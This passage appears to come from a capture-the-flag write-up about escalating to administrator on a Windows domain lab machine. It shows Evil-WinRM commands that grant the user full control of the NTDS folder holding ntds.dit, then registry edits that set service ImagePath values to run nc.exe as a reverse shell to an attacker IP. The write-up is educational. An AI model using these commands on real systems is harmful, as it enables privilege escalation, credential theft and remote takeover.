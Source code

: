 ### Getting Administrator Shell

So now I have successfully exfiltrated the secret documents...but I want to own the system. Time to practice some more privilege escalation.

```text
*Evil-WinRM* PS C:\Users\jorden\Documents> $folder = "C:\Windows\NTDS"
*Evil-WinRM* PS C:\Users\jorden\Documents> $acl = Get-ACL $folder
*Evil-WinRM* PS C:\Users\jorden\Documents> $user = "MEGACORP\jorden"
*Evil-WinRM* PS C:\Users\jorden\Documents> $aclperms = $user, "FullControl", "ContainerInherit, ObjectInherit","None","Allow"
*Evil-WinRM* PS C:\Users\jorden\Documents> $aclrule = New-Object System.Security.AccessControl.FileSystemAccessRule $aclperms
*Evil-WinRM* PS C:\Users\jorden\Documents> $acl.AddAccessRule($aclrule)
*Evil-WinRM* PS C:\Users\jorden\Documents> Set-Acl -Path $folder -AclObject $acl
*Evil-WinRM* PS C:\Users\jorden\Documents> Get-Acl $folder | fl

Path   : Microsoft.PowerShell.Core\FileSystem::C:\Windows\NTDS
Owner  : BUILTIN\Administrators
Group  : MEGACORP\Domain Users
Access : CREATOR OWNER Allow  268435456
         NT AUTHORITY\SYSTEM Allow  268435456
         NT AUTHORITY\SYSTEM Allow  FullControl
         NT AUTHORITY\LOCAL SERVICE Allow  AppendData, Synchronize
         BUILTIN\Administrators Allow  FullControl
         BUILTIN\Administrators Allow  268435456
         MEGACORP\jorden Allow  FullControl
Audit  :
Sddl   : O:BAG:DUD:PAI(A;OICIIO;GA;;;CO)(A;OICIIO;GA;;;SY)(A;;FA;;;SY)(A;CI;0x100004;;;LS)(A;;FA;;;BA)(A;OICIIO;GA;;;BA)(A;OICI;FA;;;S-1-5-21-3167813660-1240564177-918740779-3110)
```

I'm sure there is a way I can backup ntds.dit From [https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/security-identifiers](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/security-identifiers): But it seems like I need an admin prompt for this to work

[https://decoder.cloud/2018/02/12/the-power-of-backup-operatos/](https://decoder.cloud/2018/02/12/the-power-of-backup-operatos/)

```text
REG add HKLM\System\CurrentControlSet\Services\WpnUserService_64360ac /v ImagePath /t REG_EXPAND_SZ /d "cmd.exe /c C:\Users\jorden\Documents\nc.exe 10.10.15.57 12345 -e cmd.exe" /f
```

Upload nc.exe, then start the service with `sc.exe start <service>`.

```text
*Evil-WinRM* PS C:\Users\jorden\Documents> sc.exe start WerSvc
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.

*Evil-WinRM* PS C:\Users\jorden\Documents> REG add HKLM\System\CurrentControlSet\Services\Wecsvc /v ImagePath /t REG_EXPAND_SZ /d "cmd.exe /c C:\Users\jorden\Documents\nc.exe 10.10.15.57 12345 -e cmd.exe" /f
The operation completed successfully.

*Evil-WinRM* PS C:\Users\jorden\Documents> sc.exe start Wecsvc
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.

*Evil-WinRM* PS C:\Users\jorden\Documents> REG add HKLM\System\CurrentControlSet\Services\wbengine /v ImagePath /t REG_EXPAND_SZ /d "cmd.exe /c C:\Users\jorden\Documents\nc.exe 10.10.15.57 12345 -e cmd.exe" /f
The operation completed successfully.
```